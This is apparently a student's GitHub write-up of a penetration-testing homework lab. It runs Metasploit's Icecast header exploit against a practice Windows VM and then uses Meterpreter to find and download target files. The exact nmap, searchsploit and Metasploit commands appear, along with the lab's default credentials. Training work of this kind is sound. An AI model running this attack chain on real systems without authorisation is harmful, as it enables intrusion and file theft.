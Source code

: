 # Week-17-Homework-Penetration-Testing-1

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

Report.docx

## Instructions

### You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

![Nmap Scan](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/nmap%20scan.png)

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

![Searchsploit Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/searchsploit%20icecast.PNG)

**Now that we know which exploits are available to us, let's start Metasploit:**

**Run the command that starts Metasploit:**

Answer: `msfconsole`

![msfconsole](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/msfconsole.PNG)

**Search for the Icecast module and load it for use.**

**Run the command to search for the Icecast module:**

Answer: `search icecast`

![Search Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20icecast.PNG)

**Run the command to use the Icecast module:**
**Note: Instead of copying the entire path to the module, you can use the number in front of it.**

Answer: `use exploit/windows/http/icecast_header`

We can also use the number in front of the exploit from the list provided from the search - `use 0`

![use Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/use%20icecast.PNG)

**Set the RHOST to the target machine.**

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

![Set RHOST 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%201.PNG)

![Set RHOST 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%202.PNG)

**Run the Icecast exploit.**

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

![Exploit command](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/exploit.PNG)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile*.txt` 

This command will place a wildcard in front of and behind 'secretfile' in 'secretfile.txt', meaning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before or after 'secretfile.txt'.

![search secretfile](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20secret.PNG)

**You should now have a Meterpreter session open.**

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe*.txt`

![search recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20recipe.PNG)

**Bonus: Run the command that exfiltrates the recipe.txt file:**

Answer: `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'`

![Download recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20Drinks.recipe.png)

The file is exfiltrated to the attacker machine's home folder:

![Download recipe 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20drinks.recipe%202.PNG)

**You can also use Meterpreter's local exploit suggester to find possible exploits.**

**Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

Answer: While still on the victim's machine in meterpreter shell: `run post/multi/recon/local_exploit_suggester`

![local exploit suggester](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/run%20meterpreter%20local%20exploit%20suggester.PNG)

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer:

**B. Open a Meterpreter shell.**

Answer:

**C. Run the command that displays the target's computer system information:**

Answer:
